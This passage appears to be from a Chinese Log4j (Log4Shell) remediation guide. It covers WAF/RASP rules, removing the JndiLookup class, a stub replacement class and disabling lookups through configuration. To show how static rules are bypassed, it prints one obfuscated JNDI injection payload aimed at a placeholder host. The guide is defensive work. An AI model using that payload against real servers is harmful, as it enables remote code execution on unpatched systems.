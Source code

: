 ##### 接入安全产品

第一时间上WAF规则、RASP拦截等措施，给修复争取时间。  
但是也要注意一些静态规则上的绕过，log4j 支持的写法比较多，有非常多绕过姿势。比如：

    
    
    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}  
    

##### 删除漏洞类

通过删除漏洞类进行修复的方案比较稳，也是官方推荐的一种修复方案。直接删除 log4j jar 包中存在漏洞的类：

    
    
    zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class  
    

这种修复比较方便快捷，一般业务代码也不会用到 jndi lookup
这个功能。不过可能会对基于版本号判定的安全数据采集造成一定困扰，无法准确统计漏洞的最新受影响情况。建议删除之后在 jar
包后面加上一定的标记，如：log4j-2.14.1.sec.jar  
另外，由于某些原因不想删除的话，可以自己代码替换原始的 JndiLookup 类，将它加到业务代码中。需要注意的是，必须保证它在 log4j 原类之前加载。

    
    
    package org.apache.logging.log4j.core.lookup;  
      
    public class JndiLookup {  
        public JndiLookup() {  
            throw new NoClassDefFoundError("JNDI lookup is disabled");  
        }  
    }  
    

也可以做成依赖包，在 log4j-core
之前添加，可以实现同样的效果（注意不要引入不可信的第三方依赖，可能导致潜在安全风险，以下配置来源互联网，仅作为示例，请勿直接使用）：

    
    
    <dependency>  
        <groupId>org.glavo</groupId>  
        <artifactId>log4j-patch</artifactId>  
        <version>1.0</version>  
    </dependency>  
    

当然也可以通过RASP的方式干掉漏洞类，Github上有不少RASP的无损修复方案，比如：

##### 通过配置禁用 log4j 的 lookup 功能

禁用的方式就比较多了。然而下面2、3、4这几种方式对低于 2.10 版本的 log4j-core
都没有效果，而且环境变量和启动参数这种设置，在迁移或者变更的过程中丢失的可能性比较大。log4j 在 2.15.0 版本中默认就已经关闭了 lookup
功能。  
log4j2.component.properties、log4j2.xml 默认放在 ClassPath
路径下，如：源代码的资源目录或者可执行程序所在的当前目录。

###### 设置日志输出 Pattern 格式

对于 >=2.7 的版本，在 log4j 中对每一个日志输出格式进行修改。在 %msg 占位符后面添加
{nolookups}，这种方式的适用范围比其他三种配置更广。比如在 log4j2.xml 中配置：

    